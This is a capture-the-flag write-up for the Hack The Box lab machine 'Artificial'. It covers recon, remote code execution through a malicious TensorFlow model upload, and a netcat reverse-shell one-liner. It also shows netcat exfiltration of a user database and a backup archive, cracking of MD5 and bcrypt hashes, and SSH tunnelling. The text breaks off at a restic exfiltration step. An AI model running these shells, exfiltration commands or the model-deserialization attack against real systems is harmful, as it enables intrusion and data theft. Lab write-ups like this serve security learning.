




# Artificial


---

## Intro

| Box Info           |                    |
| :----------------- | ----------------------------------------------------- |
| 🔗 Name             | [Artificial](https://app.hackthebox.com/machines/668) |
| 🎯 Target IP        | `10.10.11.74`                                         |
| 📈 Difficulty level | 🟩Easy                                                 |
| 🐧OS                | Linux                                                 |

---

## Recon

```bash
mkdir -p $HOME/htb/artificial/nmap
cd $HOME/htb/artificial
```

Start Reconnaissance

```bash
# Fast full TCP port scan
nmap -p- --min-rate 10000 10.10.11.74
```

```bash
# Scan open ports with default scripts and version detection
nmap -p 22,80 -sC -sV -vv -oA nmap/artificial 10.10.11.74
```

```bash
# Nmap Output
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDNABz8gRtjOqG4+jUCJb2NFlaw1auQlaXe1/+I+BhqrriREBnu476PNw6mFG9ifT57WWE/qvAZQFYRvPupReMJD4C3bE3fSLbXAoP03+7JrZkNmPRpVetRjUwP1acu7golA8MnPGzGa2UW38oK/TnkJDlZgRpQq/7DswCr38IPxvHNO/15iizgOETTTEU8pMtUm/ISNQfPcGLGc0x5hWxCPbu75OOOsPt2vA2qD4/sb9bDCOR57bAt4i+WEqp7Ri/act+f4k6vypm1sebNXeYaKapw+W83en2LnJOU0lsdhJiAPKaD/srZRZKOR0bsPcKOqLWQR/A6Yy3iRE8fcKXzfbhYbLUiXZzuUJoEMW33l8uHuAza57PdiMFnKqLQ6LBfwYs64Q3v8oAn5O7upCI/nDQ6raclTSigAKpPbliaL0HE/P7UhNacrGE7Gsk/FwADiXgEAseTn609wBnLzXyhLzLb4UVu9yFRWITkYQ6vq4ZqsiEnAsur/jt8WZY6MQ8=
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOdlb8oU9PsHX8FEPY7DijTkQzsjeFKFf/xgsEav4qedwBUFzOetbfQNn3ZrQ9PMIHrguBG+cXlA2gtzK4NPohU=
|   256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH8QL1LMgQkZcpxuylBjhjosiCxcStKt8xOBU0TjCNmD

80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Add the found values to the `/etc/hosts` file

```bash
# e.g. adeguate with found values, hostnames, ffuf
sudo sh -c 'echo "10.10.11.74 artificial.htb" >> /etc/hosts' && ping -c 3 artificial.htb

# At the end of the box
# To clean up the last line from the /etc/hosts file
sudo sed -i '$ d' /etc/hosts
```

---

## Exploitation 

### Deserialization RCE via `load_model`

> - [TensorFlow Remote Code Execution with Malicious Model | CyberBlog](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model)
> - [GitHub - Splinter0/tensorflow-rce: RCE PoC for Tensorflow using a malicious Lambda layer](https://github.com/Splinter0/tensorflow-rce?tab=readme-ov-file)

**Critical issue:**

```python
model = tf.keras.models.load_model(model_path)
```

- Any `.h5` file uploaded by a user is loaded directly
- This **TensorFlow deserialization vulnerability** lets the user run arbitrary Python code as the web server user

**Impact:** Full remote code execution (**RCE**).

Browse `http://artificial.htb/` and register a user

- Download `Dockerfile` and move it into the artificial directory
- Let's try the PoC locally with the provided `Dockerfile`

```bash
cd $HOME/htb/artificial/

git clone https://github.com/Splinter0/tensorflow-rce.git

# Inside exploit.py
nano tensorflow-rce/exploit.py
# Change IP and port in the line
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 1234 >/tmp/f")
```

```bash
# Inside Dockerfile
cd $HOME/htb/artificial/
nano Dockerfile

# add netcat-openbsd to the following line, like this
    apt-get install -y curl netcat-openbsd && \
```

```bash
# Build and run the Dockerfile with mounted tensorflow-rce dir
docker build -t tf-rce .
docker run -it --rm -v ./tensorflow-rce:/work tf-rce

# KALI
nc -nvlp 1234
```

```bash
# Inside the container create the malicious model
python3 exploit.py
```

- Should receive a shell on the `nc` listener
- `CTRL+C` to stop
- `exploit.h5` model is generated



Upload the `exploit.h5` model inside `http://artificial.htb/dashboard` with the registered user



---

## Foothold

### Shell as user app

Start a `nc` listener and click **View Predictions** on the uploaded model

```bash
# Reverse shell
nc -nvlp 1234

listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.74] 56386
/bin/sh: 0: can't access tty; job control turned off
$ id 
uid=1001(app) gid=1001(app) groups=1001(app)

ls -lah /home

total 16K
drwxr-xr-x  4 root root 4.0K Jun 18 13:19 .
drwxr-xr-x 19 root root 4.0K Jun 25 19:50 ..
drwxr-x---  6 app  app  4.0K Jun  9 10:52 app
drwxr-x---  4 gael gael 4.0K Jun  9 08:53 gael
```

- Set a full interactive TTY Shell

```bash
# Full interactive TTY shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
# Hit ENTER when cursor blinks
export TERM=xterm
```

```bash
app@artificial:~/app$ cat app.py
```

```python
from flask import Flask, render_template, request, redirect, url_for, session, send_file, flash
from flask_sqlalchemy import SQLAlchemy
from werkzeug.utils import secure_filename
import os
import tensorflow as tf
import hashlib
import uuid
import numpy as np
import io
from contextlib import redirect_stdout
import hashlib

app = Flask(__name__)
app.secret_key = "Sup3rS3cr3tKey4rtIfici4L"

app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
app.config['UPLOAD_FOLDER'] = 'models'

db = SQLAlchemy(app)

MODEL_FOLDER = 'models'
os.makedirs(MODEL_FOLDER, exist_ok=True)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(100), unique=True, nullable=False)
    email = db.Column(db.String(120), unique=True, nullable=False)
    password = db.Column(db.String(200), nullable=False)
    models = db.relationship('Model', backref='owner', lazy=True)

class Model(db.Model):
    id = db.Column(db.String(36), primary_key=True)
    filename = db.Column(db.String(120), nullable=False)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)

def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() == 'h5'

def hash(password):
 password = password.encode()
 hash = hashlib.md5(password).hexdigest()
 return hash

@app.route('/')
def index():
    if ('user_id' in session):
        username = session['username']
        if (User.query.filter_by(username=username).first()):
            return redirect(url_for('dashboard'))

    return render_template('index.html')

@app.route('/static/requirements.txt')
def download_txt():
    try:
        pdf_path = './static/requirements.txt'  # Adjust path as needed
        
        return send_file(
            pdf_path,
            as_attachment=True,
            download_name='requirements.txt',  # Name for downloaded file
            mimetype='application/text'
        )
    except FileNotFoundError:
        return "requirements file not found", 404


@app.route('/static/Dockerfile')
def download_dockerfile():
    try:
        pdf_path = './static/Dockerfile'  # Adjust path as needed

        return send_file(
            pdf_path,
            as_attachment=True,
            download_name='Dockerfile',  # Name for downloaded file
            mimetype='application/text'
        )
    except FileNotFoundError:
        return "Dockerfile file not found", 404

@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        email = request.form['email']
        password = request.form['password']
        hashed_password = hash(password)
        
        existing_user = User.query.filter((User.username == username) | (User.email == email)).first()
        
        if existing_user:
            flash('Username or email already exists. Please choose another.', 'error')
            return render_template('register.html')
        
        new_user = User(username=username, email=email, password=hashed_password)

        try:
            db.session.add(new_user)
            db.session.commit()
            return redirect(url_for('login'))
        except Exception as e:
            db.session.rollback()
            flash('An error occurred. Please try again.', 'error')

    return render_template('register.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        email = request.form['email']
        password = request.form['password']
        user = User.query.filter_by(email=email).first()

        if user and user.password == hash(password):
            session['user_id'] = user.id
            session['username'] = user.username
            return redirect(url_for('dashboard'))
        else:
          pass

    return render_template('login.html')

@app.route('/dashboard')
def dashboard():
    if ('user_id' in session):
        username = session['username']
        if not (User.query.filter_by(username=username).first()):
            return redirect(url_for('login'))
    else:
        return redirect(url_for('login'))

    user_models = Model.query.filter_by(user_id=session['user_id']).all()
    return render_template('dashboard.html', models=user_models, username=username)


@app.route('/upload_model', methods=['POST'])
def upload_model():
    if ('user_id' in session):
        username = session['username']
        if not (User.query.filter_by(username=username).first()):
            return redirect(url_for('login'))
    else:
        return redirect(url_for('login'))

    if 'model_file' not in request.files:
        return redirect(url_for('dashboard'))

    file = request.files['model_file']

    if file.filename == '':
        return redirect(url_for('dashboard'))

    if file and allowed_file(file.filename):
        model_id = str(uuid.uuid4())
        filename = f"{model_id}.h5"
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)

        try:
            file.save(file_path)

            new_model = Model(id=model_id, filename=filename, user_id=session['user_id'])
            db.session.add(new_model)
            db.session.commit()

        except Exception as e:
            if os.path.exists(file_path):
                os.remove(file_path)
    else:
       pass

    return redirect(url_for('dashboard'))

@app.route('/delete_model/<model_id>', methods=['GET'])
def delete_model(model_id):
    if ('user_id' in session):
        username = session['username']
        if not (User.query.filter_by(username=username).first()):
            return redirect(url_for('login'))
    else:
        return redirect(url_for('login'))
 
    model = Model.query.filter_by(id=model_id, user_id=session['user_id']).first()

    if model:
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], model.filename)
        if os.path.exists(file_path):
            os.remove(file_path)
        db.session.delete(model)
        db.session.commit()
    else:
       pass

    return redirect(url_for('dashboard'))


@app.route('/run_model/<model_id>')
def run_model(model_id):
    if ('user_id' in session):
        username = session['username']
        if not (User.query.filter_by(username=username).first()):
            return redirect(url_for('login'))
    else:
        return redirect(url_for('login'))

    model_path = os.path.join(app.config['UPLOAD_FOLDER'], f'{model_id}.h5')

    if not os.path.exists(model_path):
        return redirect(url_for('dashboard'))

    try:
        model = tf.keras.models.load_model(model_path)

        hours = np.arange(0, 24 * 7).reshape(-1, 1)
        predictions = model.predict(hours)

        days_of_week = ["Monday", "Tuesday", "Wednesday", "Thursday", "Friday", "Saturday", "Sunday"]
        daily_predictions = {f"{days_of_week[i // 24]} - Hour {i % 24}": round(predictions[i][0], 2) for i in range(len(predictions))}

        max_day = max(daily_predictions, key=daily_predictions.get)
        max_prediction = daily_predictions[max_day]

        model_summary = []
        model.summary(print_fn=lambda x: model_summary.append(x))
        model_summary = "\n".join(model_summary)

        return render_template(
            'run_model.html',
            model_summary=model_summary,
            daily_predictions=daily_predictions,
            max_day=max_day,
            max_prediction=max_prediction
        )
    except Exception as e:
        print(e)
        return redirect(url_for('dashboard'))

@app.route('/logout')
def logout():
    session.pop('user_id', None)
    session.pop('username', None)
    return redirect(url_for('index'))

if __name__ == '__main__':
    with app.app_context():
        db.create_all()
    app.run(host='127.0.0.1')
```

There is secret key **hardcoded** in the source:

📌 Try SSH with `gael:Sup3rS3cr3tKey4rtIfici4L` -> not working

### Weak Password Hashing

```python
hash = hashlib.md5(password).hexdigest()
```

- Using **MD5** for password hashing is insecure
- Can be brute-forced easily
- No salt

---

## Lateral Movement

Dump the `users.db` SQLite file and crack MD5 hashes

```bash
find / -type f -name "users.db" 2>/dev/null
/home/app/app/instance/users.db

file /home/app/app/instance/users.db
/home/app/app/instance/users.db: SQLite 3.x database, last written using SQLite version 3031001
```

- Copy `users.db` to local KaliVM

```bash
# KALI
nc -lvnp 4445 > users.db
```

```bash
# Target
nc 10.10.14.14 4445 < /home/app/app/instance/users.db
```

```bash
sqlite3 users.db

SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
model  user 
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|qwsa|qwsa@qwsa.com|d8578edf8458ce06fbc5bb76a58c5ca4
7|abc|a@b.c|900150983cd24fb0d6963f7d28e17f72
8|admin|admin@test.com|5f4dcc3b5aa765d61d8327deb882cf99
9|test|test@test.com|098f6bcd4621d373cade4e832627b4f6
10|syselement|test@syselement.test|5f4dcc3b5aa765d61d8327deb882cf99
```

📌 Crack the MD5 hashes

- Create a `hashes.txt` file with `user:hash` values

```bash
nano hashes.txt
```

```bash
gael:c99175974b6e192936d97224638a34f8
mark:0f3d8c76530022670f1c6029eed09ccb
robert:b606c5f5136170f15444251665638b36
royer:bc25b1f80f544c0ab451c02a3dca9fc6
mary:bf041041e57f1aff3be7ea1abd6129d0
qwsa:d8578edf8458ce06fbc5bb76a58c5ca4
abc:900150983cd24fb0d6963f7d28e17f72
admin:5f4dcc3b5aa765d61d8327deb882cf99
test:098f6bcd4621d373cade4e832627b4f6
```

- Run `john`

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

john --show --format=raw-md5 hashes.txt

gael:mattp005numbertwo
royer:marwinnarak043414036
qwsa:qwerty
abc:abc
admin:password
test:test
```

### Shell as user gael

📌 SSH with `gael:mattp005numbertwo`

```bash
ssh gael@artificial.htb
```

```bash
gael@artificial:~$ ls -lah
total 32K
drwxr-x--- 4 gael gael 4.0K Jun  9 08:53 .
drwxr-xr-x 4 root root 4.0K Jun 18 13:19 ..
lrwxrwxrwx 1 root root    9 Oct 19  2024 .bash_history -> /dev/null
-rw-r--r-- 1 gael gael  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gael gael 3.7K Feb 25  2020 .bashrc
drwx------ 2 gael gael 4.0K Sep  7  2024 .cache
-rw-r--r-- 1 gael gael  807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root    9 Oct 19  2024 .python_history -> /dev/null
lrwxrwxrwx 1 root root    9 Oct 19  2024 .sqlite_history -> /dev/null
drwx------ 2 gael gael 4.0K Sep  7  2024 .ssh
-rw-r----- 1 root gael   33 Jun 25 19:26 user.txt
```

```bash
# User Flag
gael@artificial:~$ cat user.txt
2d34e***************************
```

```bash
sudo -l
[sudo] password for gael: 
Sorry, user gael may not run sudo on artificial.

uname -a
Linux artificial 5.4.0-216-generic #236-Ubuntu SMP Fri Apr 11 19:53:21 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/os-release
NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal

groups
gael sysadm


find / -perm -4000 -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/passwd
/usr/bin/at
/usr/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign

getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

ss -tnlp
State      Recv-Q     Send-Q         Local Address:Port         Peer Address:Port    Process    
LISTEN     0          2048               127.0.0.1:5000              0.0.0.0:*                  
LISTEN     0          4096               127.0.0.1:9898              0.0.0.0:*                  
LISTEN     0          511                  0.0.0.0:80                0.0.0.0:*                  
LISTEN     0          4096           127.0.0.53%lo:53                0.0.0.0:*                  
LISTEN     0          128                  0.0.0.0:22                0.0.0.0:*                  
LISTEN     0          511                     [::]:80                   [::]:*                  
LISTEN     0          128                     [::]:22                   [::]:* 
```

---

## Privilege Escalation

### backrest_root Creds bruteforce

```bash
sudo -l
[sudo] password for gael: 
Sorry, user gael may not run sudo on artificial.

uname -a
Linux artificial 5.4.0-216-generic #236-Ubuntu SMP Fri Apr 11 19:53:21 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/os-release
NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal

groups
gael sysadm


find / -perm -4000 -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/passwd
/usr/bin/at
/usr/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign

getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

ss -tnlp
State      Recv-Q     Send-Q         Local Address:Port         Peer Address:Port    Process    
LISTEN     0          2048               127.0.0.1:5000              0.0.0.0:*                  
LISTEN     0          4096               127.0.0.1:9898              0.0.0.0:*                  
LISTEN     0          511                  0.0.0.0:80                0.0.0.0:*                  
LISTEN     0          4096           127.0.0.53%lo:53                0.0.0.0:*                  
LISTEN     0          128                  0.0.0.0:22                0.0.0.0:*                  
LISTEN     0          511                     [::]:80                   [::]:*                  
LISTEN     0          128                     [::]:22                   [::]:* 
```

```bash
find / -group sysadm -writable 2>/dev/null
find / -group sysadm 2>/dev/null
/var/backups/backrest_backup.tar.gz

ls -l /var/backups/backrest_backup.tar.gz
-rw-r----- 1 root sysadm 52357120 Mar  4 22:19 /var/backups/backrest_backup.tar.gz
```

- Copy `backrest_backup.tar.gz` to local KaliVM

```bash
# KALI
nc -lvnp 4444 > backrest_backup.tar.gz
```

```bash
# Target
nc 10.10.14.14 4444 < /var/backups/backrest_backup.tar.gz
```

```bash
# KALI
tar -xvf backrest_backup.tar.gz

cd backrest

ls -lah
Permissions Size User       Date Modified Name
drwxr-xr-x     - syselement  3 Mar 23:27  .config
drwxr-xr-x     - syselement  3 Mar 23:18  processlogs
drwxr-xr-x     - syselement  5 Mar 00:17  tasklogs
.rwxr-xr-x   26M syselement 16 Feb 21:38  backrest
.rwxr-xr-x  3.0k syselement  3 Mar 06:28  install.sh
.rw-------    64 syselement  3 Mar 23:18  jwt-secret
.rw-r--r--   57k syselement  5 Mar 00:13  oplog.sqlite
.rw-r--r--   33k syselement  5 Mar 00:17  oplog.sqlite-shm
.rw-r--r--     0 syselement  5 Mar 00:17  oplog.sqlite-wal
.rw-------     0 syselement  3 Mar 23:18  oplog.sqlite.lock
.rwxr-xr-x   27M syselement  3 Mar 06:28  restic
```

```bash
cat .config/backrest/config.json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```

```bash
echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d

$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

- Crack the **bcrypt** hash

```bash
nano bcrypt.hash

backrest_root:$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt bcrypt.hash

john --show bcrypt.hash
backrest_root:!@#$%^
```

### **SSH Local port forwarding**

- Create a **secure tunnel** between Kali local port `9898` and `127.0.0.1:9898` on the remote machine, to expose the remote **Backrest API** service locally

```bash
ssh -L 9898:127.0.0.1:9898 gael@artificial.htb
# mattp005numbertwo
```

Browse to `http://localhost:9898/`

- 📌 use `backrest_root:!@#$%^` credentials to login

### Restic server and backup exfiltration

On Kali, host a [Restic Server](https://github.com/restic/rest-server), to receive backups over `HTTP` from the remote Backrest

```bash
# KALI
